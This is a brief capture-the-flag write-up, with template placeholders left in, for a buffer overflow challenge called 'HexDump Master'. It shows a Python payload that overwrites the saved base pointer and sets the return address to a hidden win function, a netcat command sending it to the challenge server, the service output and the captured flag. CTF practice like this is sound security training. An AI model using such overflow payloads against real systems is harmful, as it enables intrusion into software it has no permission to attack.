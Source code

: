 # Chall Name

## Solution

`print(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHI\xe2\x14\x40\x00\x00\x00\x00\x00")
print(b"N")
print(b"cat flag.txt")

`cat input | nc challs1.nusgreyhats.org 5002`
=== HexDump Master ===
Prints the input back at you, in hexdump format, including some extra data... I wonder what that data is :)
Btw, there is an inaccessible function at 0x4014dc (win). What will it do?

... blah blah blah ...

saved base pointer      : 0x4948474645444342
return address          : 0x4014e2
Go again? (Y/N) You entered: N
greyhats{b0f_m4d3_ezpz_345ff}

<run instructions if any>

## Deeper explanations

The challenge runs a service that shows how memory is mangled by a buffer overflow attack.

The solution is simple: find the relevant number of characters (offset) needed to start writing to the return address.


<stuff>


